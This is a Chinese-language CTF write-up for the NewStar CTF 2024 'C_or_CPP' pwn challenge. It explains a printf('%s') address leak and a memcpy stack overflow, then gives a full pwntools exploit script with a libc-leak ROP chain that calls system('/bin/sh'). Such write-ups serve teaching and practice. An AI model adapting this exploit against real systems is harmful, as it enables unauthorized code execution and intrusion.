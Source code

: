 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# C_or_CPP

![](/assets/images/wp/2024/week5/C_or_CPP_1.png)

首先拖入 IDA 分析，这是一个用 C 和 CPP 来实现相同操作对比的程序

题目存在两个漏洞

一个是位于功能 2 里面的

```
  printf("C String input: ");
  read(0, buf, 0x50uLL);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "C++ String: ");
  v5 = std::operator<<<char>(v4, v13);
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  printf("C String: %s\n", buf);
```

一个是位于功能 5 里面的

```
  std::operator>><char>(&std::cin, v4);
  v2 = (const void *)std::string::c_str(v4);
  memcpy(dest, v2, 0x100uLL);
```

第一个漏洞首先 read 了 0x50 个字符，乍一看可能没有发现溢出，但结合上后面的 printf("%s")，即可实现泄露地址,``printf("%s") 会一直输出直到遇到 '\x00'``

第二个漏洞先使用 cin 输入了字符串，再将它 memcpy 到 dest 字符串中，而 dest 是存放在栈上的，因此存在栈溢出

因为程序是使用 g++ 编译的，相对可用的 gadget 会相当少，所以靠第一次泄露的地址，用 libc 的 gadget 来实现 ROP

```
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

k = 0
if k:
    addr = '127.0.0.1:9999'
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./C_or_CPP')
elf = ELF('./C_or_CPP')
libc = ELF('./libc.so.6')

def debug():
    gdb.attach(p, 'b *0x402F8F\nb *0x402A22\nc\n')

# debug()
sla(b'Please choose an option:', b'2')
sla(b'C++ String input:', b'inkey')
sa(b'C String input:', b'a' * 0x50)
ru(b'a' * 0x50)
libc_base = uu64(r(6)) - 0x4B1040
# libc_base = uu64(r(6)) - 0x4BB040
print(f"libc_base --> 0x{libc_base :x}")

rdi = libc_base + 0x000000000002A3E5  #: pop rdi; ret;
rsi = libc_base + 0x000000000016333A  #: pop rsi; ret;
rdx_rbx = libc_base + 0x00000000000904A9  #: pop rdx; pop rbx; ret;
bin_sh = libc_base + 0x001D8678
system = libc_base + libc.sym.system
# pause()

sla(b'Please choose an option:', b'5')
payload = b'a' * 0x48 + flat([rdi, bin_sh, rsi, 0, rdx_rbx, 0, 0, system])
sla(b'Try to say something:', payload)

p.interactive()

```